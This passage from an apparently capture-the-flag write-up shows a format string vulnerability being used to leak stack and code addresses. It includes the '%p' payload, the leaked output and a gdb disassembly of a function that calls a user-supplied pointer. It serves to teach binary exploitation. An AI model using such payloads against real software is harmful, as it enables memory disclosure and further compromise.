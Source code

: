 Now what we need is to somehow **find** an address of the `.text` section while the program is being executed.

To do so we will **exploit** the format string vulnerability.

When running the binary we see:
```
Enter your name:
```
Here we will enter the following:
```
AAAA %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p
``` 

Which will print back
```
AAAA 0x5591e16502a1 (nil) 0x5591e16502d5 0x7ffcb4e3aef0 0x7c 0x7ffcb4fe6218 0x7fafdd6df6a0 0x2070252041414141 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0xa70252070 0x7ffcb4e3af50 0x5591e05af1c0
```

The **0x41** is the output mark the **start** of our string we entered.  
We will use this to match the start of our input in the stack using  `gdb` to find an address in the `.text` section.

In `gdb` we see the disassembly of the `call_functions` function.
```
   0x00005555555552c7 <+0>:	endbr64 
   0x00005555555552cb <+4>:	push   %rbp
   0x00005555555552cc <+5>:	mov    %rsp,%rbp
   0x00005555555552cf <+8>:	sub    $0x60,%rsp
   0x00005555555552d3 <+12>:	mov    %fs:0x28,%rax
   0x00005555555552dc <+21>:	mov    %rax,-0x8(%rbp)
   0x00005555555552e0 <+25>:	xor    %eax,%eax
   0x00005555555552e2 <+27>:	lea    0xd45(%rip),%rdi        # 0x55555555602e
   0x00005555555552e9 <+34>:	mov    $0x0,%eax
   0x00005555555552ee <+39>:	callq  0x555555555140 <printf@plt>
   0x00005555555552f3 <+44>:	mov    0x2d26(%rip),%rdx        # 0x555555558020 <stdin@@GLIBC_2.2.5>
   0x00005555555552fa <+51>:	lea    -0x50(%rbp),%rax
   0x00005555555552fe <+55>:	mov    $0x40,%esi
   0x0000555555555303 <+60>:	mov    %rax,%rdi
   0x0000555555555306 <+63>:	callq  0x555555555160 <fgets@plt>
   0x000055555555530b <+68>:	lea    -0x50(%rbp),%rax
   0x000055555555530f <+72>:	mov    %rax,%rdi
   0x0000555555555312 <+75>:	mov    $0x0,%eax
   0x0000555555555317 <+80>:	callq  0x555555555140 <printf@plt>
=> 0x000055555555531c <+85>:	lea    0xd1d(%rip),%rdi        # 0x555555556040
   0x0000555555555323 <+92>:	mov    $0x0,%eax
   0x0000555555555328 <+97>:	callq  0x555555555140 <printf@plt>
   0x000055555555532d <+102>:	lea    -0x60(%rbp),%rax
   0x0000555555555331 <+106>:	mov    %rax,%rsi
   0x0000555555555334 <+109>:	lea    0xd34(%rip),%rdi        # 0x55555555606f
   0x000055555555533b <+116>:	mov    $0x0,%eax
   0x0000555555555340 <+121>:	callq  0x5555555551a0 <__isoc99_scanf@plt>
   0x0000555555555345 <+126>:	mov    -0x60(%rbp),%rax
   0x0000555555555349 <+130>:	mov    %rax,-0x58(%rbp)
   0x000055555555534d <+134>:	mov    -0x58(%rbp),%rax
   0x0000555555555351 <+138>:	callq  *%rax
   0x0000555555555353 <+140>:	nop
   0x0000555555555354 <+141>:	mov    -0x8(%rbp),%rax
   0x0000555555555358 <+145>:	xor    %fs:0x28,%rax
   0x0000555555555361 <+154>:	je     0x555555555368 <call_functions+161>
   0x0000555555555363 <+156>:	callq  0x555555555130 <__stack_chk_fail@plt>
   0x0000555555555368 <+161>:	leaveq 
   0x0000555555555369 <+162>:	retq
```

